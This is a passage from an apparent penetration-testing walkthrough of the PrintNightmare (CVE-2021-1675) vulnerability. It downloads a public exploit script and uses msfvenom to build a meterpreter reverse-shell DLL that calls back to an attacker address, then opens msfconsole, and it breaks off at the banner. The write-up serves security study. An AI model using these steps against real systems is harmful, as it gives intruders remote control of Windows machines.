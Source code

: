 ```text
creating build
creating build/lib
creating build/lib/impacket
copying impacket/smb.py -> build/lib/impacket
copying impacket/eap.py -> build/lib/impacket
copying impacket/spnego.py -> build/lib/impacket
copying impacket/helper.py -> build/lib/impacket
copying impacket/IP6_Address.py -> build/lib/impacket
copying impacket/ImpactPacket.py -> build/lib/impacket
copying impacket/dot11.py -> build/lib/impacket
copying impacket/__init__.py -> build/lib/impacket
<SNIP>
```

Get the exploit:

```text
┌──(root💀kali)-[~/cve/impacket]
└─# cd ..      

┌──(root💀kali)-[~/cve]
└─# wget https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/main/CVE-2021-1675.py
--2021-07-01 10:21:06--  https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/main/CVE-2021-1675.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.110.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7140 (7.0K) [text/plain]
Saving to: ‘CVE-2021-1675.py’

CVE-2021-1675.py              100%[==============================================>]   6.97K  --.-KB/s    in 0s      

2021-07-01 10:21:06 (114 MB/s) - ‘CVE-2021-1675.py’ saved [7140/7140]
```

Create meterpreter payload:

```text
┌──(root💀kali)-[~/cve]
└─# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=443 -f dll > /tmp/pencer.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 8704 bytes
```

Start msfconsole:

```text
┌──(root💀kali)-[~/cve]
└─# msfconsole

                                              `:oDFo:`
                                           ./ymM0dayMmy/.
                                        -+dHJ5aGFyZGVyIQ==+-
                                    `:sm⏣~~Destroy.No.Data~~s:`
                                 -+h2~~Maintain.No.Persistence~~h+-
                             `:odNo2~~Above.All.Else.Do.No.Harm~~Ndo:`
                          ./etc/shadow.0days-Data'%20OR%201=1--.No.0MN8'/.
                       -++SecKCoin++e.AMd`       `.-://///+hbove.913.ElsMNh+-
                      -~/.ssh/id_rsa.Des-                  `htN01UserWroteMe!-
                      :dopeAW.No<nano>o                     :is:TЯiKC.sudo-.A:
```